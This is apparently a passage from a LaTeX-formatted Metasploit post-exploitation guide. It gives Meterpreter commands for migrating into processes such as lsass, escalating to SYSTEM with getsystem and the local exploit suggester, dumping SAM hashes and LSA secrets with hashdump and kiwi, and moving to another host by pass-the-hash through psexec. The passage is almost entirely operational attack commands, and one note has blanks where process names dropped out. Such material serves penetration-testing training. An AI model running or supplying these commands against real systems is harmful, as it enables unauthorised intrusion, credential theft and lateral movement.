 \begin{termbox}
# List all running processes
ps

# Find a stable target process (svchost.exe, explorer.exe, lsass.exe)
pgrep svchost

# Migrate into the process
migrate <PID>

# Confirm migration succeeded
getpid
getuid
\end{termbox}

\begin{notebox}
Migrating into  gives access to credential material but is risky ---
if lsass crashes, the system reboots. Prefer  for stability.
\end{notebox}

\section{Privilege Escalation}
\label{sec:priv_esc}

\begin{termbox}
# Attempt automatic privilege escalation
getsystem

# Check current privilege level
getuid
# Look for: NT AUTHORITY\SYSTEM (Windows) or root (Linux)

# If getsystem fails, look for local privilege escalation exploits
# Check the OS version first
sysinfo
# Then search for local exploits matching the version
search type:local platform:windows

# Common local privilege escalation modules
use post/multi/recon/local_exploit_suggester
set SESSION session_number
run
# This lists exploits likely to work based on the current session context
\end{termbox}


\section{Credential Dumping}
\label{sec:cred_dump}

\begin{termbox}
# SAM database hash dump (requires SYSTEM)
hashdump
# Output format: username:RID:LM_hash:NTLM_hash:::

# Load kiwi (Mimikatz in Metasploit) --- requires migration to stable process
load kiwi
creds_all             # All credential types from memory
lsa_dump_sam          # SAM database hashes
lsa_dump_secrets      # LSA secrets (service account passwords, etc.)

# Pass-the-hash attack using dumped NTLM hash
use exploit/windows/smb/psexec
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:NTLM_hash_here
set RHOST next_target_ip
exploit
\end{termbox}


